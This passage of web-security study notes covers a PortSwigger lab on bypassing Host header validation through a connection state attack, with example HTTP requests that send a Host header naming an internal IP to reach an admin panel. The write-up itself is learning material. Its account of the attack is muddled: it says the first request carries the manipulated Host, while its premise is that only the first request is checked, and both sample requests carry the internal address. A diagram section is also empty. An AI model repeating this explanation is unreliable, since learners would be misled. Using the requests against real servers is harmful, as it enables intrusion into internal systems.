

## Understanding the Vulnerability

### What is a Connection State Attack?

A Connection State Attack exploits the assumption made by the server that all requests within a single connection share the same `Host` header value. This means that if an attacker can manipulate the `Host` header in the initial request, subsequent requests within the same connection will also be processed under the same `Host` context.

### How Does the Attack Work?

In this lab, the server is vulnerable to routing-based Server-Side Request Forgery (SSRF) via the `Host` header. The server performs some validation on the `Host` header, but it assumes that all requests within a connection will have the same `Host` value as the first request.

#### Step-by-Step Mechanics

1. **Initial Request**: The attacker sends an initial request with a manipulated `Host` header.
2. **Subsequent Requests**: The server processes subsequent requests within the same connection using the `Host` value from the initial request.
3. **Exploitation**: By manipulating the `Host` header in the initial request, the attacker can trick the server into accessing internal resources that should not be accessible from the outside.

### Example Exploit

Let's walk through a detailed example of how to exploit this vulnerability.

#### Initial Request

The attacker sends an initial request with a manipulated `Host` header:

```http
GET /index.html HTTP/1.1
Host: 192.168.1.1
```

#### Subsequent Request

The server processes the subsequent request within the same connection using the `Host` value from the initial request:

```http
GET /admin-panel HTTP/1.1
Host: 192.168.1.1
```

### Full HTTP Messages

Here are the full HTTP messages for both requests:

#### Initial Request

```http
GET /index.html HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

#### Subsequent Request

```http
GET /admin-panel HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

### Mermaid Diagram: Attack Flow



---
<!-- nav -->
[[Web Security (PortSwigger)/16-HTTP Host Header Attacks/07-Lab 6 Host validation bypass via connection state attack/07-Understanding HTTP Host Header Attacks|Understanding HTTP Host Header Attacks]] | [[Web Security (PortSwigger)/16-HTTP Host Header Attacks/07-Lab 6 Host validation bypass via connection state attack/00-Overview|Overview]] | [[Web Security (PortSwigger)/16-HTTP Host Header Attacks/07-Lab 6 Host validation bypass via connection state attack/09-Conclusion|Conclusion]]
